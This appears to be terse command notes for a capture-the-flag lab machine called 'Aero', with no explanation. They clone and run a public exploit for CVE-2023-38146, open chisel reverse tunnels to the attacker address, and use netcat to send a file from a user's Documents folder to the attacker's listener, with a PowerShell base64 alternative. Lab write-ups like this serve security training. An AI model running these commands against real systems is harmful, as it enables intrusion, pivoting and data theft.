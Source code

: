 ```yaml
---
title: Aero
layout: default
---
```

```bash
git clone https://github.com/Jnnshschl/CVE-2023-38146.git
```

```bash
python3 themebleed.py -r 10.10.14.3 -p 4444
```

```bash
chisel server --port 7777 --reverse
```

```bash
.\chisel.exe client 10.10.14.3:7777 R:135:127.0.0.1:135 R:445:127.0.0.1:445 R:5040:127.0.0.1:5040 R:139:127.0.0.1:139 R:5000:127.0.0.1:5000
```

```bash
cmd /c "nc.exe 10.10.14.3 443 < C:\Users\sam.emerson\Documents\CVE-2023-28252_Summary.pdf"

nc -lp 443 > file.pdf
```

Mejor forma:
```powershell
[convert]::ToBase64String((Get-Content -path "CVE-2023-28252_Summary.pdf" -Encoding byte))
```
